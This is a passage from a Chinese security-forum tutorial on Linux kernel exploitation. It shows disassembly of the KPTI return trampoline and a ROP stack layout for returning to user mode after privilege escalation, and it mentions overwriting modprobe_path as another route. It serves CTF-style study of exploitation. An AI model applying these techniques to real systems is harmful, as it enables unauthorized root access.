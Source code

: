```
.text:FFFFFFFF81600A65 FF 37                          push    qword ptr [rdi]
.text:FFFFFFFF81600A67 50                             push    rax
.text:FFFFFFFF81600A68 EB 43                          nop
.text:FFFFFFFF81600A6A 0F 20 DF                       mov     rdi, cr3
.text:FFFFFFFF81600A6D EB 34                          jmp     0xFFFFFFFF81600AA3
 
.text:FFFFFFFF81600AA3 48 81 CF 00 10+                or      rdi, 1000h
.text:FFFFFFFF81600AAA 0F 22 DF                       mov     cr3, rdi
.text:FFFFFFFF81600AAD 58                             pop     rax
.text:FFFFFFFF81600AAE 5F                             pop     rdi
.text:FFFFFFFF81600AAF FF 15 23 65 62+                call    cs: SWAPGS
.text:FFFFFFFF81600AB5 FF 25 15 65 62+                jmp     cs: INTERRUPT_RETURN
 
_SWAPGS
.text:FFFFFFFF8103EFC0 55                             push    rbp
.text:FFFFFFFF8103EFC1 48 89 E5                       mov     rbp, rsp
.text:FFFFFFFF8103EFC4 0F 01 F8                       swapgs
.text:FFFFFFFF8103EFC7 5D                             pop     rbp
.text:FFFFFFFF8103EFC8 C3                             retn
 
 
_INTERRUPT_RETURN
.text:FFFFFFFF81600AE0 F6 44 24 20 04                 test    byte ptr [rsp+0x20], 4
.text:FFFFFFFF81600AE5 75 02                          jnz     native_irq_return_ldt
.text:FFFFFFFF81600AE7 48 CF                          iretq

```

在 ROP 时，将程序流程控制到 mov rdi, rsp 指令，栈布局如下就行：

```
rsp  ---->  mov_rdi_rsp
            0
            0
            rip
            cs
            rflags
            rsp
            ss

```

当然改 modprobe_path 也是一个不错的方法，返回后当前进程 Segmentation fault 也不影响提权。

0x3 Reference
=============

[如何检查我的 Ubuntu 上是否启用了 KPTI？](https://ubuntuqa.com/article/1242.html)  
[【内核漏洞利用】TokyoWesternsCTF-2019-gnote Double-Fetch](https://mp.weixin.qq.com/s?__biz=MzI2ODM4NzUyNQ==&mid=2247484029&idx=1&sn=f6bfec08b43c75ca7af6bd12f4999113&chksm=eaf117d7dd869ec1eee66d75abac5d38112b7a63c3bf28edc32960c60d74541a75bb2e4dfe9d&mpshare=1&scene=23&srcid=&sharer_sharetime=1585655592580&sharer_shareid=85875ea7087d5e89ec671378652f4aac#rd)  
[Linux 系统调用过程分析 - 知乎](https://zhuanlan.zhihu.com/p/79236207?from_voters_page=true)  
[KPTI 补丁分析_运维_Linux 阅码场 - CSDN 博客](https://blog.csdn.net/juS3Ve/article/details/79544927)  
[内核页表隔离_百度百科](https://baike.baidu.com/item/%E5%86%85%E6%A0%B8%E9%A1%B5%E8%A1%A8%E9%9A%94%E7%A6%BB/22785908?fr=aladdin)  
[https://www.felixcloutier.com/x86](https://www.felixcloutier.com/x86)

[第五届安全开发者峰会（SDC 2021）议题征集正式开启！](https://bbs.pediy.com/thread-266645.htm)

最后于 2020-4-21 22:30 被 b0ldfrev 编辑 ，原因：